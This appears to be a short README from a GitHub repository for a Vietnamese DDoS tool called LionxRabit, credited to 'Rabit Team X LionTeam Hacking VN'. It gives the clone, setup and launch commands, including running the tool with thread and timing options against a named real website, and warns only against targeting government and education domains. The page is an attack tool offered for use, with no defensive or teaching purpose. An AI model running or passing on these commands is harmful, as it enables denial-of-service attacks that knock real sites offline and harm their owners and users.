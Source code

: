 # @2022 Rabit Team X LionTeam Hacking VN DDoS

git clone https://github.com/huychuvangia/lionxrabit

cd lionxrabit

KHONG DDOS CHINHPHU.VN (GOV,EDU)

python setup.py

python3 LionxRabit -s 100 -t 5 https://nhatquyenit.net/

Hoặc

python LionxRabit.py https://nhatquyenit.net/

ĐỢI KHÁ LÂU 
